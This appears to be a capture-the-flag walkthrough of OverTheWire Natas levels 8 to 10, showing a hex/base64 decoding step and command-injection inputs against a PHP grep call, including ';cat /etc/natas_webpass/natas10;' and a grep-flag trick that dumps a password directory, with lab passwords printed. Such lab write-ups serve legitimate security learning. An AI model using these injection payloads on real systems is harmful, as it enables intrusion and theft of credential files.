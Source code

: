This should do it:

```PHP
base64_decode(strrev(hex2bin($encodedSecret)))
```

Of course, we can't actually access those functions, if they exists, so I'll just do it in a shell

```console
maket@anderson ~/p/o/natas> echo "3d3d516343746d4d6d6c315669563362" | xxd -r -p | rev | base64 -d
oubWYf2kBq
```

We put this string into the field and get back our password

```
Access granted. The password for natas9 is W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
```

===

### [natas9](http://natas9.natas.labs.overthewire.org/)

natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

Looking at the source code, here's the exploitable part (note `$key` is the value of the input field)

```PHP
passthru("grep -i $key dictionary.txt");
```

Here's what we'll input to inject our command into the server and get the password

```
;cat /etc/natas_webpass/natas10;
# this makes the grep command
grep -i ;cat/etc/natas_webpass/natas10; dictionary.txt
```

```
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
```

===

### [natas10](http://natas10.natas.labs.overthewire.org/)

natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

The program now filters out `;`, `|`, and `&`, so we as easily run our own commands. Let's just mess with the `grep` command itself, we'll input

```
-r . /etc/natas_webpass
# which makes the grep command
grep -i -r . /etc/natas_webpass dictionary.txt
```
the output is large, but the password we need is there

```
/etc/natas_webpass/natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
/etc/natas_webpass/natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
...
```
